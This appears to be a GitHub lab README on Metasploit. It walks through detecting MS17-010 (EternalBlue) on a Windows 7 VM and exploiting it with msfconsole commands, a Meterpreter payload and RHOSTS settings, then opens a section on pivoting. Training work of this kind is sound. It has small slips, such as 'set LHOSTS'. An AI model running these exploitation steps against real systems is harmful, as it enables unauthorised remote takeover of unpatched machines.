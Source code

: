 # Metasploit
Metasploit is a flexible platform used for penetration testing and security auditing, enabling testers to uncover system vulnerabilities and evaluate security measures. The framework includes multiple modules that can be used together to perform various tasks, such as detecting and exploiting weaknesses.

## Use Metasploit To Identify A Machine Vulnerable To MS17-010
The MS17-010 EternalBlue vulnerability is a serious remote code execution flaw in the Windows Server Message Block (SMB) protocol. Exploiting this vulnerability allows attackers to run arbitrary code on the target machine, potentially leading to system compromise and unauthorized access.

#### References
- [MS17-010 SMB RCE Detection](https://www.rapid7.com/db/modules/auxiliary/scanner/smb/smb_ms17_010/) by Rapid7
- [Microsoft Security Bulletin MS17-010 - Critical](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010) by Microsoft
  
#### Tasks
- Launch a VM running a vulnerable version of Windows (Windows 7)
- Within the Metasploit console, use the auxiliary module "scanner/smb/smb_ms17_010" to scan the target machine for the MS17-010 vulnerability
- Validate the output from the "MS17-010 SMB RCE Detection" auxiliary module in Metasploit is 'Host is LIKELY vulnerable to MS17-010!'

Screenshot of Metasploit successfully identifying MS17-010 vulnerability shown below: <br/>
![metasploit-identify-ms17-010](https://github.com/user-attachments/assets/83d65383-097c-4022-bbd7-3b8a745b6492)



## Use Metasploit To Exploit MS17-010
The EternalBlue exploit targets a vulnerability in the Server Message Block (SMB) protocol, which was patched with the MS17-010 update. However, many systems remain unpatched, leaving them susceptible to this attack. The exploit can be delivered via phishing emails or malicious websites. Penetration testers can use Metasploit to identify hosts vulnerable to the EternalBlue exploit by scanning for the MS17-010 flaw. Once a vulnerable system is found, the tester can deploy and execute a malicious payload on the target using Metasploit.

#### Tasks
- Execute the appropriate MS17-010 exploit from Metasploit against the target machine to exploit the vulnerability
- Use the "getuid" command within the Meterpreter session
- After successful exploitation, verify that you have gained a Meterpreter session
- Demonstrate you are running as "NT AUTHORITY\SYSTEM" when executing "getuid" within the Meterpreter session

#### Solutions
1. Launch Metasploit in Kali Linux with the command `msfconsole`
2. Run the command `search ms17-010`
3. Choose a module. For automatic modules, simply enter `use 0`. Note that since no payload was configured, it defaults to `windows/x64/meterpreter/reverse_tcp`
4. Enter `show payloads`, and choose a payload number 26 `payload/windows/x64/meterpreter/bind_tcp_rc4`
5. To set the target's IP address, enter `show options` and `set RHOSTS <target_IP_address>`
6. Ensure the local machine's IP address is correct, otherwise set it using the `set LHOSTS <local_ip_address>` command
7. (Optional) Enter `set GroomAllocations 10` and `set GroomDelta 5` for controlling how memory is arranged on the target computer during an exploit. GroomAllocations decides how many memory spaces the exploit creates to prepare the computer's memory, while GroomDelta fine-tunes the size of the memory spaces

Screenshot of Metasploit successfully exploiting MS17-010 vulnerability with an active Meterpreter session shown below: <br/>
![image](https://github.com/user-attachments/assets/6c8cfafb-7834-4b86-8c90-dbfe87114ffe)



## Use Metasploit's Port Forwarding Capabilities To Gain Access To A Machine That Doesn't Have Direct Internet Access
Some networks isolate business-critical machines from the Internet and more vulnerable corporate systems using Virtual LANs (VLANs) or physical segmentation. Despite this isolation, network engineers and system administrators still require access to these restricted networks for tasks like troubleshooting, patching, or rebooting machines. As a penetration tester or red teamer, your goal is to identify users who need access to these restricted networks, target the machines they use for management, and compromise them. Once you gain control of a machine with access, you can route your traffic through it to reach the restricted network. This method, known as 'pivoting,' allows you to move into otherwise unreachable network environments.

